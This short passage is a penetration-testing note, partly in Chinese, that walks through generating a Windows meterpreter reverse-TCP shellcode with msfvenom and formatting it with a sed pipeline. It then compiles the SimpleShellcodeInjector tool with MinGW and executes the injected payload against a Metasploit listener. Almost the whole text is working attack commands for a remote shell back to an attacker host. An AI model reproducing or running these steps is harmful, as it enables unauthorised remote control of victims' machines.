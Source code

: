 	https://github.com/DimopoulosElias/SimpleShellcodeInjector
	生成payload(c)
	>msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.108 lport=12138 -f c -o shellcode.c
	执行
	>cat shellcode.c |grep -v unsigned|sed "s/\"\\\x//g"|sed "s/\\\x//g"|sed "s/\"//g"|sed ':a;N;$!ba;s/\n//g'|sed "s/;//g"
![image](/assets/Pentest_Note/master/img/56.png)

	MSF监听
	可使用minGW自行编译
	>gcc SimpleShellcodeInjector.c -o xxx.exe
	执行
	>xxx.exe +生成的编码